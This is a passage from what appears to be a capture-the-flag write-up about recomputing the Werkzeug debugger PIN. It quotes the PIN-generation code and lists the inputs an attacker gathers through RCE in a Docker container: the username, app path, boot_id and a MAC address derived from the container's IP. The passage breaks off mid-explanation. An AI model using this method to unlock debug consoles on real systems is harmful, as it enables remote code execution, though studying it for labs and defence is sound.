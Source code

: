 ```py
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]
    
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

Based on the code above, we can see that the `pincode` can be calculated. The problem is that the information are kind of unique, so that it cannot be collected unless you have the right to access the system directly.

That might be an issue, but we might have the solution as well. The fact is a docker container basically shares a lot of properties to the actual host. Thus, if we managed to somehow compromised one of `container`, we might be able to collect the needed information

For instance, let's split the information we need:

```md
» probably_public_bits
username     # nobody (Dockerfile)
modname      # flask.app (always the same)
appname      # Flask (always the same)
pathname     # /usr/local/lib/python3.10/site-packages/flask/app.py

» private_bits
uuid         # int(mac_address, 16)
machine_id   # /proc/sys/kernel/random/boot_id
```

Using the `RCE` capability on `frontend` container, we might be able to collect most of the informations, except for the `mac_address`. Fortunately, docker container has the unique way to generate their own physical address. 

Basically, it's a 8-byte address, where the second first always has the same value of `02:42`, follows with 6-byte of `hex(IPv4_address)`. For example:
